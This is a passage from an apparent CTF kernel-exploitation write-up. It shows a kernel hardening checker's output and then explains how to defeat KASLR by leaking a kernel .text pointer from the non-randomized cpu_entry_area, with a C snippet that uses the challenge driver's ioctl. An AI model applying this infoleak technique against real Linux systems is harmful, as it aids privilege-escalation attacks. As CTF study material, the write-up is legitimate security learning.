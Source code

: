 ```  
TOMOYO                                  : Disabled (tomoyo_init: Found,
tomoyo_enabled: 0)  
Yama (ptrace_scope)                     : Enabled (yama_init: Found,
kernel.yama.ptrace_scope: 1)  
Integrity                               : Supported (integrity_iintcache_init:
Found)  
LoadPin                                 : Unsupported (loadpin_init: Not
found)  
SafeSetID                               : Supported (safesetid_security_init:
Found)  
Lockdown                                : Supported (lockdown_lsm_init: Found)  
BPF                                     : Supported (bpf_lsm_init: Found)  
Landlock                                : Supported (landlock_init: Found)  
Linux Kernel Runtime Guard (LKRG)       : Disabled (Not loaded)  
----------------------------------------------------------------- Dangerous system call -----------------------------------------------------------------  
vm.unprivileged_userfaultfd             : Disabled
(vm.unprivileged_userfaultfd: 0)  
kernel.unprivileged_bpf_disabled        : Enabled
(kernel.unprivileged_bpf_disabled: 2)  
kernel.kexec_load_disabled              : Disabled
(kernel.kexec_load_disabled: 0)  
------------------------------------------------------------------------- Other -------------------------------------------------------------------------  
CONFIG_KALLSYMS_ALL                     : Enabled  
CONFIG_RANDSTRUCT                       : Disabled  
CONFIG_STATIC_USERMODEHELPER            : Disabled (modprobe_path: RW-)  
CONFIG_STACKPROTECTOR                   : Enabled (offsetof(task_struct,
stack_canary): 0x9c8)  
KADR (kallsyms)                         : Enabled (kernel.kptr_restrict: 2,
kernel.perf_event_paranoid: 2)  
KADR (dmesg)                            : Enabled (kernel.dmesg_restrict: 1)  
vm.mmap_min_addr                        : 0x10000  
```

What matters for us is mainly the KASLR that is on. Then, the first step will
be to defeat it.

## Defeat kASLR

To defeat kASLR we could use the trick already use a while ago by the hxp team
in one of their [kernel shellcoding challenge](https://hxp.io/blog/99/hxp-
CTF-2022-one_byte-writeup/). The idea would be to read through the
`cpu_entry_area` fix-mapped area, that is not rebased by the kASLR, a pointer
toward the kernel .text. Then giving us a powerful infoleak thats allows us to
find for example the address of the physmap. I just had to search a few
minutes the right pointer in gdb and that's it, at `0xfffffe0000002f50` is
stored a pointer toward `KERNEL_BASE + 0x1000b59`! Which gives:

```c  
   req.kptr = 0xfffffe0000002f50;  
   if (ioctl(fd, 0x1337, &req)) {  
       return -1;  
   }

   kernel_text =  ((uint64_t* )req.buf)[0] - 0x1000b59;  
   printf("[!] kernel .text found at %lx\n", kernel_text);  
```
